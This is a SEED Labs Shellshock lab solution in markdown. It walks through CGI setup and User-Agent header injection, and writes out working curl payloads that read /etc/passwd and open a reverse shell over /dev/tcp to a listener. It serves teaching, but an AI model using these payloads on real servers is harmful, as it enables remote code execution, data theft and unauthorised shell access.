



# Shellshock Attack Seedsecurity Lab solution

### Task 1: Experimenting with Bash Function

- Bash has already been patched and shellshock vulnerability is no longer available. In order to run the vulnerable bash for this lab, shellshock needs to be active. `/bin/bash_shellshock` activates shellshock vulnerable bash as it is installed inside /bin directory for this attack.
- Vulnerability of shellshock can be verified through the following steps:

  1. Create a prompt string1 and export it. `export PS1:'shellshock:>'` sets the prompt string as shellshock:>
  2. Create a vulnerable variable that is in the format of a function so that when it is parsed, it gets called as a function. `funcn='() { echo "Inside bash function"; }; echo "attack";'` In this command, the first echo belongs to function when it is parsed after switching the shell and the second echo is the command that gets executed when the shell changes.
  3. Once the function is created, it needs to be exported using the command `export funcn`. Export designates specified variables and functions to be passed to child processes. Here, function funcn is exported to the child process.
  4. Now on calling `/bin/bash_shellshock`, a command outside the function is executed because when it is parsed, shellshock considers the string as a function because it sees () as the leading characters of the string. 
  5. Though funcn was passed as an environment variable, it is received as a function. So on doing `echo $funcn` it does not print anything. But on `declare -f funcn`, it shows the structure of the function and excludes the attacking command, `echo "attack"`.
  6. If the same process is executed with `/bin/bash`, it does not let the attack succeed because this bash does not parse the variable to a function when exporting to a child process. This is why `echo $funcn` on bash prints out the content of the variable funcn.



### Task 2: Setting up CGI programs

- Common Gateway Interface (CGI) is an interface specification for web servers to execute programs like console applications running on a server.
- According to the instruction in Seed lab, *myprog.cgi* needs to be placed inside */usr/lib/cgi-bin* directory; owned by *root*; permission *755* so that it is executable; and have the following content:
```
#!/bin/bash_shellshock 
echo "Content-type: text/plain" 
echo 
echo 
echo "Hello World" 
```

- The first line of this program specifies that the shellshock needs to be invoked to run the script.
- The second and third line are basically protocols that specify the content type to be plain text. 
- The main output that this program gives is *Hello World* which is executed through the last line.
- To execute this program, apache server must be running `service apache2 start`. On the browser, url `localhost/cgi-bin/myprog.cgi` executes the above program.
- To access this cgi program from the terminal, this command can be used:  `curl http://localhost/cgi-bin/myprog.cgi`
- To execute this program on the remote machine, use the IP address of this machine instead of localhost ( say *10.0.2.5/cgi-bin/myprog.cgi*)

### Task 3: Passing Data to Bash via Environment Variable

- To exploit a Shellshock vulnerability in a Bash-based CGI program, attackers need to pass their data to the vulnerable Bash program, and the data need to be passed via an environment variable.
- One of the ways to do this is by printing the content of all the environment variables in the current process. The last line of this program does this task.

```
#!/bin/bash_shellshock 
echo "Content-type: text/plain" 
echo 
echo "****** Environment Variables ******" 
strings /proc/$$/environ
```
- This shows the data string in the page that comes back from the server.
- When reaching this file from browser, **User-Agent** gives browser information and when reached via curl, `curl http://10.0.2.5/cgi-bin/myprog2.cgi` User-Agent gives curl information.
- If `-A` is specified, user content would be in the server’s environment variable, i.e. `curl -A “user defined” http://10.0.2.5/cgi-bin/myprog2.cgi` sets the User-Agent to user defined.
- Environment variables are a series of hidden values that the web server sends to every CGI program that runs. There are a series of those variables: some of them give information about the server and never change (such a SERVER_NAME, SERVER_ADMIN) while others give information about the visitors and are different every time someone accesses the script.
- The server receives certain information from the client using certain fields that help the server customize the contents of the client and hence can be customized by the user. When the webserver forks the child process to run CGI, it passes **HTTP_USER_AGENT** as an environment variable along with the others to the CGI program. So, using this header, one can pass the environment variable to the shell. This is why `-A` option was used to set the value of User-agent header file.

### Task 4: Launching the Shellshock Attack

- It's time to steal the content of a secret file from the server that is not accessible to any remote users.
- `-A` option can be used to pass the exploitable function as a string to steal the content of the server through environment variable User-Agent
- Format of the vulnerable function is `'() { statement; }; vulnerable_command;'`. 
- To steal the content, CGI program format is used. So, vulnerable_command becomes echo "Content-type: text/plain"; echo; exploit_code.
- Usually */etc/passwd* is secret and not available to remote users. To steal the content of that file, `exploit_code` should  be `/bin/cat /etc/passwd`. 
- Now that all the parameters are known, the final exploitable payload would be `curl -A "() { echo XYZ; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd" 10.0.2.4/cgi-bin/myprog2.cgi`.
- When the above payload is executed on the attacker's bash, it displays the content of */etc/passwd*. 
PS: 10.0.2.4 is the victim’s IP (in my case; can be different in your’s)



- But, using `curl -A "() { echo XYZ; }; echo Content-type: text/plain; echo; /bin/cat /etc/shadow" 10.0.2.4/cgi-bin/myprog2.cgi` content of */etc/shadow* file can not be stolen because /etc/shadow file requires *root privilege* and Apache server runs on a user account other than root. Years earlier, Apache server ran through root privilege but due to the attacks on the root, Apache removed the root privilege and now it runs with a special user account.

### Task 5: Getting a Reverse Shell via Shellshock Attack

- Through the earlier task, the attacker could run a command on the server and display the output. In real attacks, instead of hard-coding the command in their attack, attackers often choose to run a shell command, so they can use this shell to run other commands, for as long as the shell program is alive. To achieve this goal, attackers need to run a reverse shell.
- Reverse shell is a shell process started on a machine, with its input and output being controlled by somebody from a remote computer. Basically, the shell runs on the victim’s machine, but it takes input from the attacker machine and also prints its output on the attacker’s machine.
- The key idea of reverse shell is to redirect its standard input, output, and error devices to a network connection, so the shell gets its input from the connection, and prints out its output also to the connection.
- When `netcat` is run with `-l` option, it becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client, and sends to the client whatever is typed by the user running the server.
- First, netcat needs to listen to a port (say 9090) through command `nc -nlvp 9090`
- So, the main goal is to trigger a TCP connection between attacker and server through the port *9090*.
- `curl -A '() { echo "hello";}; echo Content_type:text/plain; echo; exploti_command' http://10.0.2.4/cgi-bin/myprog.cgi` this command is the exploit structure. To set the reverse shell, value of `exploit_command` is to be found.
- According to the lab description of shellshock seed lab, `/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1` is the `exploit_command`.
- `/bin/bash -i` signifies a bash shell and `-i` signifies that the shell must be interactive.
- `> /dev/tcp/10.0.2.15/9090` this causes the output device (stdout) of the shell to be redirected to the TCP connection to **10.0.2.15**’s port **9090**. In Unix systems, stdout’s file descriptor is *1*. 
- Here, `/bin/bash -i` is a command whose output is directed to TCP connection at 10.0.2.15’s port 9090. So now, the bash shell is available there at 9090 port.
- Now, the device 1, `&1` is the TCP connection.
- `0<&1`: File descriptor 0 represents the standard input device (stdin). This option tells the system to use the standard output device as the standard input device (i.e. input to the server is redirected from stdiot, which is the TCP connection). Since stdout is already redirected to the TCP connection, this option basically indicates that the shell program will get its input from the same TCP connection. 
- `2>&1`: File descriptor 2 represents the standard error stderr. This causes the error output to be redirected to stdout, which is the TCP connection.
- In summary, the command `/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1` starts a bash shell on the server machine, with its input coming from a TCP connection, and output going to the same TCP connection.
- In the experiment, when the bash shell command is executed on 10.0.2.15, it connects back to the netcat process started on 10.0.2.4. This is confirmed via the `Connection from 10.0.2.5 port 9090 [tcp/\*] accepted` message displayed by netcat.
- Now, the final payload at the attacker’s side becomes `curl -A '() { echo "hello";}; echo Content_type:text/plain; echo; /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1' http://10.0.2.4/cgi-bin/myprog.cgi`



### Task 6: Using the Patched Bash

- When `/bin/bash_shellshock` is replaced by `/bin/bash`, Task 3 works properly fine but Task 5 does not. It is because Task 3 does not incorporate the vulnerable function `"() { statement; }; vulnerable_code;"`. And because string does not need to be converted to function, Task 3 is not affected. But Task 4 and Task 5 does not work because to achieve the attack, string starting with () needs to be parsed to a function which is not possible through bash.
